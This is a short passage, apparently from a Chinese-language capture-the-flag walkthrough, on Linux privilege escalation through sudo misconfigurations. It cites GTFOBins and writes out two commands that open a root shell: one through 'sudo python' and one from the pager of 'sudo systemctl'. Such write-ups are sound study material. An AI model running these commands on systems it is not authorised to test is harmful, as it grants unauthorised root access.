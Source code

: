 若是不知道这两个提权方式，可以访问`https://gtfobins.github.io/`查看用法

```shell
sudo python -c 'import os; os.system("/bin/sh")'
```

![](pic-torment\46.jpg)

另一个`systemctl`提权，这个提权方式很多，可以通过`.service`文件提权，因为这里没有指定特定的服务，只是这个命令，所以是可以扩展使用的

![](pic-torment\47.jpg)

```
sudo systemctl
!sh
```

![](pic-torment\48.jpg)
